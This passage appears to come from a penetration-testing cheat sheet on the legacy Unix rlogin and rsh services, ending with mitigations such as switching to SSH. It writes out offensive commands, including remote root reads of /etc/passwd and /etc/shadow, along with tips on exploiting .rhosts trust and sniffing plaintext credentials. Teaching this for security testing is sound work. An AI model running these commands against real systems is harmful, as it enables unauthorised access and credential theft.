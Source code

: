 ```bash
rlogin <remote_host>
```

- **Abuse Potential**: If `.rhosts` is improperly configured, attackers can log in without a password.
- **Example**:

`rlogin -l root 192.168.1.10`

#### **4. rsh (Remote Shell)**

- **Usage**:

```bash
rsh <remote_host> <command>
```

- **Abuse Potential**: Executes commands without requiring a password if `.rhosts` allows it.
- **Example**:

```bash
rsh 192.168.1.10 'cat /etc/passwd'
```

---

### **Penetration Testing Tips**

1. **Check for Open Ports**:  
    Scan for ports 512, 513, and 514 using `nmap`.
    
    ```bash
nmap -p 512-514 <target_ip>
```
    
2. **Enumerate Services**:  
    Use tools like **rpcinfo** or **rsh** to gather service information.

    ```bash
rpcinfo -p <target_ip>
```
    
3. **Exploit Misconfigured `.rhosts` Files**:  
    `.rhosts` files define trusted hosts and users. Weak configurations allow remote access without passwords.
    
    - Look for `.rhosts` files in user home directories:
        ```bash
find / -name ".rhosts" 2>/dev/null
```
        
4. **Exploit Trusted Host Relationships**:  
    If `.rhosts` trusts your machine, you can spoof your hostname and execute commands. Example with **rsh**:
    
    ```bash
    rsh -l root <target_host> 'cat /etc/shadow'
    ```
    
5. **Intercept Credentials**:  
    Use tools like Wireshark to capture plaintext credentials during R-Command usage.
### **Mitigation and Recommendations**

- Replace R-Services with **SSH** for secure remote access.
- Disable unnecessary services in `/etc/services`.
- Remove `.rhosts` files or restrict them strictly.
- Use network firewalls to block ports **512–514**.


```